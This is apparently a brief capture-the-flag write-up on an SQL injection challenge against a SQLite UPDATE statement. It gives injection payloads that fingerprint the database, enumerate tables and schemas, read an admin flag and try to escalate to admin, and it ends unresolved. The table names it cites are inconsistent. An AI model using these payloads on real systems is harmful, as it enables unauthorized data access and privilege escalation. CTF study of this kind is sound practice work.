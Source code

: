 ```yaml
---
created: 2024-06-09T16:20
updated: 2024-08-04T20:44
---
```


> I was working on this website and wanted you to check it out. The code is a bit of a mess, since it's only an extremely early version. In fact, you're the very first user, with ID 1!
> PLEASE NOTE: What you do should, in theory, not affect other solvers. Please let us know if this is not the case.

---

SQL Injection huh, and with `UPDATE`.

Make a guess for the statement.

```sql
UPDATE table SET name="<input>" WHERE id='1'
```

With some [version checking](sql.md)...

```sql
UPDATE table SET name=""||(SELECT sqlite_version())||"" WHERE id='1'
```

We can determine that it is sqlite.

```sql
UPDATE table SET name=""||(SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('users'))||""
```

```
" || (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') || "

## users,roles_e25832119caec3e7

" || (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='roles_aa673201a75d3012') || "

## CREATE TABLE roles_aa673201a75d3012 (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE).

" || (SELECT id||","||admin FROM roles_2d69a85c4fb75907 WHERE id='1') || "

## 1,0

" || (UPDATE roles_e25832119caec3e7 SET admin=1) || "


", admin="1"
```

Welp, idk
